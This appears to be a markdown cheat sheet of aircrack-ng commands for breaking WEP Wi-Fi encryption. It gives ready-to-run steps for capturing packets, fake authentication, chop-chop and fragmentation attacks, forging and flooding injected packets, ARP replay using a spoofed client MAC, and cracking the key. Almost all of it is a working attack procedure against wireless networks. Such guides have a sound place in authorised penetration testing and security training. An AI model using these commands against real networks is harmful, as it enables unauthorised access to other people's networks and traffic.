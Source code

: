 ### Capturing Packets
---
Cracking WEP requires around 10000 packets. 30k-40k is optimal.

##### Capturing Packets:
``` sh
sudo airodump -c <channel no.> -b <bssid> -w WEP_capture wlan0mon
```
- Keep Airodump-ng running while doing the below attacks.

### WEP Attacks
---
##### No Clients Connected:
###### Fake authentication Attack:
Some attacks required an associated MAC address of a client. If no clients are connected to the AP, we would need to associate with the AP ourself to perform packet injection.

To associate our MAC to the AP, we can perform a fake-auth attack:
``` sh
sudo aireplay-ng --fakeauth 0 -q 10 -a <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
or
``` sh
sudo aireplay-ng --fakeauth 6000 -o 1 -q 10 -a <AP bssid> -e <AP essid> -h <Our wlan0mon MAC> wlan0mon
```

> [!note] 
> Note: This attack only works on ***open system authentication (`OSA`)***
> 
> For `SKA`, sniffing / de-auth / cracking is required. (See [shared_key (Aircrack-ng)](https://www.aircrack-ng.org/doku.php?id=shared_key))

###### Chop chop Attack:
```sh
sudo aireplay-ng -4 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Respond with `Y` when an ARP packet is found to use the packet.
- This will generate a XOR file (Decipher key) from the packet.

###### Fragmentation Attack:
```sh
sudo aireplay-ng -5 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Aternative of Chop chop attack
- Always respond with `Y`.
- This will generate a XOR file (Decipher key) from the packet.

###### Packet Forging & Injection
```sh
packetforge-ng -0 -a <AP bssid> -h <Our wlan0mon MAC> -k 255.255.255.255 -l 255.255.255.255 -y <XOR file> -w <output file>
```
- This will forge an packet (`.pcap` file) with the decipher key we just obtained.

```sh
sudo aireplay-ng -2 -r <.pcap file> wlan0mon
```
- `-2` for Interactive Packet Replay attack (Packet Injection).
- This will flood the AP with the packet.
- Remember to keep `airdump-ng` running to capture the packets


##### Existing Clients:
###### Fake Authentication Attack:
If SKA is enabled, we would have to de-authenticate a connected client, and capture the SKA when they reconnect. We can then perform the previous fake authentication attacks. The easier way here is to directly spoof the MAC of the connected client to inject ARP packets, and generate the traffic required to crack the WEP Key.

###### ARP-request replay Attack:
This will generate a huge amount of ARP packets for cracking.
``` sh
sudo aireplay-ng -3 -b <AP bssid> -h <Target Client MAC> wlan0mon
```
- Requires the MAC address of a connected client.

### Cracking WEP Key
---
When we captured over 10k packets, we can try to crack:
``` sh
aircrack-ng WEP-capture.cap
```

